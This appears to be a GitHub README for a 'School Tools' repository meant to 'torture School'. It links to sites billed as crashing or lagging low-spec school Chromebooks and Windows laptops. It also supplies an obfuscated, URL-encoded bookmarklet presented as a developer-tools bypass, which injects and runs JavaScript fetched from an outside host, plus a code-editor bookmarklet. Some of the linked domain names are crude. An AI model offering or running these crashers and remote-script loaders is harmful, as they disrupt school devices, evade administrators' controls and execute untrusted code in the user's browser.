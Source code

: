 # School Tools (C) 2021 - present Stiizzy Cat

A repo full of tools to torture School!




## Documentation
> School Laptop Laggers (Must be low spec chrome OS & windows systems)
+ [Crasher](http://bongo-hates-python.cf/) ```http://bongo-hates-python.cf/```
+ [Crasher/lagger](https://crash.drugs4children.org/) ```https://crash.drugs4children.org/```

> Developer Tool Bypasses
```JS 
javascript:(function()%7Bfunction%20callback()%7Bconsole.log(%22FUNNY%22)%7Dvar%20s%3Ddocument.createElement(%22script%22)%3Bs.src%3D%22https%3A%2F%2Fanimetitties.net%2FGetsource.js%22%3Bif(s.addEventListener)%7Bs.addEventListener(%22load%22%2Ccallback%2Cfalse)%7Delse%20if(s.readyState)%7Bs.onreadystatechange%3Dcallback%7Ddocument.body.appendChild(s)%3B%7D)())()
```
> Mini Code Editor V`
```
javascript:(function()%7Bconst%20wnd%20%3D%20window.open('School%20Toolz%20CodeEditor'%2C%20'_blank'%2C%20'status%3Dno%2Ctoolbar%3Dno%2Clocation%3Dno%2Cdirectories%3Dno%2Cresizable%3Dno%2Cscrollbars%3Dyes%2Cwidth%3D600%2Cheight%3D400')%3Bwnd.document.write(%60%3C!DOCTYPE%20html%3E%3Chtml%20lang%3D%22en%22%3E%3Cselect%20name%3D%22language%22%20id%3D%22language%22%3E%3Coption%20value%3D%22javascript%22%3EJavaScript%3C%2Foption%3E%3Coption%20value%3D%22python%22%3EPython%3C%2Foption%3E%3Coption%20value%3D%22lua%22%3Elua%3C%2Foption%3E%3Coption%20value%3D%22html%22%3Ehtml%3C%2Foption%3E%3Coption%20value%3D%22css%22%3Ecss%3C%2Foption%3E%3Coption%20value%3D%22lua%22%3Elua%3C%2Foption%3E%3Coption%20value%3D%22C%23%22%3EC%23%3C%2Foption%3E%3Coption%20value%3D%22php%22%3Ephp%3C%2Foption%3E%3Coption%20value%3D%22sh%22%3ESH%3C%2Foption%3E%3Coption%20value%3D%22vbscript%22%3EVbscript%3C%2Foption%3E%3C%2Fselect%3E%3Cbody%20style%3D%22margin%3A0%20%22%3E%3Cdiv%20id%3D%22editor%22%3Econsole.log(%22Editor%20Bookmarklet%20By%20School%20Toolz%20Team%22)%3C%2Fdiv%3E%3Cscript%20src%3D%22https%3A%2F%2Fcdnjs.cloudflare.com%2Fajax%2Flibs%2Face%2F1.1.01%2Face.js%22%20type%3D%22text%2Fjavascript%22%20charset%3D%22utf-8%22%3E%3C%2Fscript%3E%3Cscript%3Evar%20codinglang%20%3D%20%22javascript%22%3Bvar%20editor%20%3D%20ace.edit(%22editor%22)%3Bconst%20lang%20%3D%20document.getElementById('language')%3B%20lang.addEventListener('change'%2C%20function()%20%7B%20codinglang%20%3D%20lang.value%2C%20editor.getSession().setMode(%22ace%2Fmode%2F%22%20%2B%20codinglang)%3B%20%7D)%3Beditor.setTheme(%22ace%2Ftheme%2Ftomorrow_night_eighties%22)%3Beditor.getSession().setMode(%22ace%2Fmode%2F%22%20%2B%20codinglang)%3Bdocument.getElementById(%22editor%22).style.height%20%3D%20%22400px%22%3B%3C%2Fscript%3E%3C%2Fbody%3E%3C%2Fhtml%3E%60)%7D)()
```
+ [Soon](https://github.com/StiizzyCat/SchoolTools)

